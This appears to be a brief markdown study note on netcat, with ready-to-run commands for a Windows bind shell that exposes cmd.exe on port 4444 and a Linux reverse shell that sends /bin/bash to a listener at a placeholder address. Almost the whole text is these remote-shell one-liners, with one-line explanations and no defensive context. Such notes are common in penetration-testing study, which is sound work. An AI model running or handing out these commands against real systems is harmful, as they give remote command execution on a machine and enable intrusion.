 # Netcat and Shells

## Bind Shell
Request shell from box

### Windows Box
Using netcat set a listener on port 4444 and using the -e command set it to push to cmd.exe

```nc -lvp 4444 -e cmd.exe```

### Linux Box
Now simply connect on that port and after a short wait you will be given the windows shell, which can be tested using ipconfig

```nc -nv IP.AD.DR.ESS 4444```

## Reverse Shell
Send shell to box

### Windows box
Setup a basic listener

```nc -lvp 4444```

### Linux Box
Send the shell to the listener, then check back on the windows box you should now be inside a linux shell

```nc -nv IP.AD.DR.ESS 4444 -e /bin/bash```
